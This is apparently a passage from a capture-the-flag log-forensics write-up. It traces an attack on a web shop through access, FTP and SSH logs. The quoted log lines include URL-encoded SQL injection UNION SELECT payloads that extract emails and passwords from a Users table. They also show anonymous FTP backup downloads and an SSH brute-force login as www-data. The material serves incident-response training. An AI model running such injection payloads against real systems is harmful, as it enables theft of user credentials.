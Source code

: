 Researching, I learned this is a common pattern that appears during SQL innjections attacks, where sqlmap automation will discover a specific "UNION" SQL query, like in this example and the attacker will confirm this from their browser.

In the below two entries you can see the attacker confirmed an injection method found to work by sqlmap and then alters the query to retrieve emails and passwords.

```
"GET /rest/products/search?q=%27))%20UNION%20SELECT%20%271%27,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 304 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"

"GET /rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,%20email,%20password,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users-- HTTP/1.1" 200 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

After these the User-Agent changes, showing the final retrieval of emails and passwords using curl.

**What files did they try to download from the vulnerable endpoint? (endpoint from the previous task, question #5)**

We can repeat the command from the previous section to answer this question.

$ `cat access.log | grep "ftp"`

```
::ffff:192.168.10.5 - - [11/Apr/2021:09:34:33 +0000] "GET /ftp HTTP/1.1" 200 4852 "-" "feroxbuster/2.2.1"
::ffff:192.168.10.5 - - [11/Apr/2021:09:34:40 +0000] "GET /ftp/www-data.bak HTTP/1.1" 403 300 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
::ffff:192.168.10.5 - - [11/Apr/2021:09:34:43 +0000] "GET /ftp/coupons_2013.md.bak HTTP/1.1" 403 78965 "-" ""Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

**What service and account name were used to retrieve files from the previous question? (service, username)**

In `vsftpd.log`, right before the two files are downloaded using FTP, the anonymous account is logged into.

```
Sun Apr 11 09:35:37 2021 [pid 8152] [ftp] OK LOGIN: Client "::ffff:192.168.10.5", anon password "?"
Sun Apr 11 09:35:45 2021 [pid 8154] [ftp] OK DOWNLOAD: Client "::ffff:192.168.10.5", "/www-data.bak", 2602 bytes, 544.81Kbyte/sec
Sun Apr 11 09:36:08 2021 [pid 8154] [ftp] OK DOWNLOAD: Client "::ffff:192.168.10.5", "/coupons_2013.md.bak", 131 bytes, 3.01Kbyte/sec  
```

**What service and username were used to gain shell access to the server? (service, username)**

Looking in `auth.log`, there are a lot of authentication errors for the user `www-data`, but eventually are followed by an "Accepted password for www-data" entry and one saying a session was spawned for the same user. The logs also show "sshd:session", meaning the serviced used to get a shell was SSH.

```
Apr 11 09:41:19 thunt sshd[8260]: Accepted password for www-data from 192.168.10.5 port 40112 ssh2
Apr 11 09:41:19 thunt sshd[8260]: pam_unix(sshd:session): session opened for user www-data by (uid=0) Apr 11 09:41:19 thunt systemd-logind[737]: New session 12 of user www-data.
```

